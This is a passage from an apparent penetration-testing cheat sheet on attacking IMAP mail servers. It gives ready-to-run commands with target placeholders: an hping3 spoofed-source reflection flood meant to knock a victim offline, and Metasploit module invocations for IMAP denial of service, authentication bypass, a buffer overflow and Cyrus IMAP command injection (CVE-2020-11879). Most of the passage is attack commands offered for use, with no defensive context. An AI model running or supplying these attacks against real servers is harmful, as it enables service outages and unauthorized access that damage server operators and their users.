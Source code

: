 #### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### Exploiting IMAP Vulnerabilities

*   **Tool:** \[\[Metasploit]]

    ```bash
    msfconsole
    use exploit/unix/imap/squirrelmail_pgp
    ```
* **Description:** Exploit known vulnerabilities in IMAP services to crash or disrupt the server, leading to a denial of service.

### Exploits

#### IMAP Authentication Bypass

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/linux/imap/courier_auth_bypass
    set RHOSTS <target_ip>
    run
    ```
* **Description:** Bypass authentication on vulnerable IMAP servers to gain unauthorized access.

#### Exploiting IMAP Buffer Overflow

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/imap/mercury_buffer_overflow
    set RHOSTS <target_ip>
    run
    ```
* **Description:** Trigger a buffer overflow in the IMAP server, potentially crashing the service or allowing code execution.

#### CVE-2020-11879: Cyrus IMAP Server Command Injection

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/unix/imap/cyrus_imap_exec
    set RHOST <target_ip>
    run
    ```
* **Description:** A vulnerability in Cyrus IMAP allows command injection via IMAP commands.
